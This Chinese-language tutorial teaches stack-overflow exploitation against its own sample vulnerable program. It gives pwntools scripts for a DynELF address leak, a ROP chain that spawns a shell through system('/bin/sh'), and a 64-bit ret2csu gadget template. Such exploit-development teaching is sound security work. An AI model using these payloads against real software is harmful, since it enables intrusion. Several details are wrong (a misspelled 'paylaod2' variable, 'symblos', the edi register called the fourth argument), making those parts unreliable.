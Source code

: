 # 浅谈栈溢出填充布局-2

## DynELF

当我们未知一个程序的**libc**版本时，可能就没法使用**ret2libc**或者**ret2plt**，这时我们可以考虑使用**DynELF**来获取我们所需要的地址，**pwntools**中已经自带了强大的工具

首先举一个带有漏洞的例子程序

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void vul_func(){
    char buf[128];
    read(STDIN_FILENO,buf,256);//STDIN_FILENO = 0
}

int main(int argc,char **argv){
    vul_func();
    write(STDOUT_FLENO,"Hello,World\n",13);
    //STDOUT_FLENO = 1,13 = 13 char
    return 0;
}
```

其实这里可以说一下在**UNIX**一些系统调用中使用到**STDIN_FILENO**表示标准输入,**STDOUT_FILENO**表示标准输出，**STDERR_FILENO**表示标准出错，使用时需要加头文件**<unistd.h>**

```c
/* Standard file descriptors. */
#define STDIN_FILENO 0 /* Standard input. */
#define STDOUT_FILENO 1 /* Standard output. */
#define STDERR_FILENO 2 /* Standard error output. */
```

首先看一下完整的**EXP**

```python
#!/usr/bin/env python
from pwn import*

elf = ELF("./rop_sample")
plt_write = elf.symbols["write"]
plt_read = elf.symbols["read"]
vulfunc_addr = 0x0804844b # no PIE

def leak(address):
    payload1 = "A"*132 + p32(plt_write) + p32(vulfunc_addr) + p32(1) + p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" %(address,(data or '').encode('hex'))
    return data

p = process("./rop_sample")

d = DynELF(leak, elf=ELF('./rop_sample'))

system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)

bss_addr = 0x0804a024
pppr = 0x0804850d # no PIE

payload2 = "A"*132 + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(0)
paylaod2 += p32(system_addr) + p32(vulfunc_addr) + p32(bss_addr)

print "\n###sending payload2 ...###"
p.send(payload2)
p.send("/bin/sh")

p.interactive()
```

首先来分析一下leak函数

```python
def leak(address):
    payload1 = "A"*132 + p32(plt_write) + p32(vulfunc_addr) + p32(1) + p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" %(address,(data or '').encode('hex'))
    return data
```

使用**DynELF**的关键是找到一个**vulfunc**函数去构建**leak**函数，其中vulfunc函数的特征是具有可无限次读写内存地址的能力，比如例子中的**vul_func**

```c
void vul_func(){
    char buf[128];
    read(STDIN_FILENO,buf,256);//STDIN_FILENO = 0
}
```

当我们执行**vul_func**的时候，可以向**bss**段写入一段数据，且存在栈溢出，我们就可以控制它在**read**函数和write函数之间来回执行，实现无限读写，事实上我们的**payload**也是这样构建的

```c
payload1 = "A"*132 + p32(plt_write) + p32(vulfunc_addr) + p32(1) + p32(address) + p32(4)
```

首先`"A"*132`是因为**buf**开的栈大小是128个字节，那么只需要再加4个字节覆盖掉**Caller's EBP**，就可以让我们想要跳转的地址覆盖掉 **Ret Addr**，这里我们是**write**函数，然后

```
p32(vulfunc_addr) + p32(1) + p32(address) + p32(4)
```

构成了**write**函数新的栈帧，其中`p32(vulfunc_addr)`成为了**write**函数的**Ret Addr**，将重新跳回到**vul_func**重复读写，然后`p32(1)`就是write函数的第一个参数**STDOUT_FILENO**，然后`p32(address)`就是我们希望暴露的地址，最后一个`p32(4)`是我们**write**函数读取的字节数，因为我们就读取了一个`p32(address)`就是32位系统下的指针，也就是4个字节

然后`data = p.recv(4)`，也是因为我们希望得到的是一个32位系统的地址指针，也就是4字节，如果是64位系统就是8个字节

然后我们完成了leak函数的构造，接下来我们只需要调用**pwntools**里面的工具就ok了，就可以获得我们想要的地址了

```
d = DynELF(leak, elf=ELF('./rop_sample'))
system_addr = d.lookup('system', 'libc')
```

然后**payload2**

```python
payload2 = "A"*132 + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(0)
paylaod2 += p32(system_addr) + p32(vulfunc_addr) + p32(bss_addr)
```

就是我们先调用**read**函数手动输入**"bin/sh“**到**bss**段地址，**pppr**就是**pop\*3+ret**，**pop*3**就是为了栈平衡，因为**read**函数引入了三个参数，然后**ret**就会**ret**到**system_addr**开始调用**system**函数，因为第二个参数是**bss_addr**，之前我们已经在**bss**上放入了**"bin/sh"**，事实上就执行了

```
system(‘/bin/sh’)
```

## 64位

首先是x64最为重要的两个变化

- 应用程序地址空间的改变
- 参数传参方式的改变（**RDI**、**RSI**、**RDX**、**RCX**、**R8**、**R9**）+**Stack**

比如我们调用一个**write**函数的汇编，因为这些数据只用32位就可以，所以是**edx**或者**esi**这类

```
mov edx,oxd //argv[2]
mov esi,0x400644 // argv[1]
mov edi,0x1 //argv[0]
call 0x400430<write@plt>
```

我们一般传参常用的Gadgets就是以下三个

```
gadget1 = mov rdx,r13 | mov rsi,r14 | mov edi,r15d | call    qword ptr [r12+rbx*8]
```

其中`call    qword ptr [r12+rbx*8]`就是我们希望调用的函数，然后`mov rdx,r13`就是第三个参数，`mov rsi,r14`是第二个参数，`mov edi,r15d`是第四个参数

```
gadget2 = pop rbx | pop rbp | pop r12 | pop r13 | pop r14 | pop r15 | ret
```

```
gadget3 = pop rdi | ret
```

常见模板

```python
csu_front_addr = 0x0000000000400600 #gadget1 mmmc
csu_end_addr = 0x000000000040061A #gadget2 ppppppr
fakeebp = 'b' * 8 
#32位 fakeebp是4个字节， 64位为8个字节
def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += '\x90' * 0x38 #nop
    payload += p64(last)
    sh.send(payload)
    sleep(1)
```

如果希望使用**write**函数暴露地址

```
csu(0, 1, write_got, 8, write_got, 1, main_addr)
```

一般接受用的函数

```
write_addr = u64(p.recv(8))
```

这里有个**Tips**，一般我们要搜索**libc**里面的函数地址就用

```
libc.symblos["xxxx"]
```

字符串就用

```
libc.search["xxxx"]
```

在gdb里面可以用bt命令展示各函数的起始地址